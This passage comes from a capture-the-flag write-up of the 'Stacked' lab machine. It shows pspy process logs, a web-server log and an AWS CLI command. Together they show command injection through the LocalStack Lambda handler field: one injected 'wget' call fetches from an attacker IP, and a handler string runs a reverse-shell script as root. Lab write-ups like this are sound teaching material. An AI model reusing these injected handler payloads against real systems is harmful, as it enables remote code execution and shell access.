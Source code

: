 

At `pspy`, the same three processes, but one more before it:



    2021/08/25 20:55:27 CMD: UID=0    PID=1389   | wget 10.10.14.6/test 
    2021/08/25 20:55:27 CMD: UID=0    PID=1388   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs12.x" "index.handler;$(wget 10.10.14.6/test)")";docker cp "/tmp/localstack/zipfile.0e05eb2c/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID"; 
    2021/08/25 20:55:27 CMD: UID=0    PID=1387   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs12.x" "index.handler;$(wget 10.10.14.6/test)")";docker cp "/tmp/localstack/zipfile.0e05eb2c/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID"; 
    2021/08/25 20:55:27 CMD: UID=0    PID=1396   | docker cp /tmp/localstack/zipfile.0e05eb2c/. 055307ed86c3a9abf7e78574787249c1162138905afdea2b7590502d4251f4bd:/var/task 



And a request at my Python web server:



    10.10.11.112 - - [25/Aug/2021 16:55:27] code 404, message File not found
    10.10.11.112 - - [25/Aug/2021 16:55:27] "GET /test HTTP/1.1" 404 -



This is successful command injection.

#### Shell

I've already got `/tmp/.0xdf.sh` as a reverse shell in this container.
I'll create a Lambda that calls it:



    oxdf@hacky$ aws lambda create-function --function-name shell --handler 'index.handler;$(bash /tmp/.0xdf.sh)' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --endpoint-url http://s3-testing.stacked.htb --runtime nodejs12.x
    {
        "FunctionName": "shell",
        "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:shell",
        "Runtime": "nodejs12.x",
        "Role": "arn:aws:iam::123456789012:role/lambda-role",
        "Handler": "index.handler;$(bash /tmp/.0xdf.sh)",
        "CodeSize": 291,
        "Description": "",
        "Timeout": 3,
        "LastModified": "2021-08-25T20:59:54.009+0000",
        "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
        "Version": "$LATEST",
        "VpcConfig": {},
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "52c9494e-accb-47e5-b0ff-d570d9725d49",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    }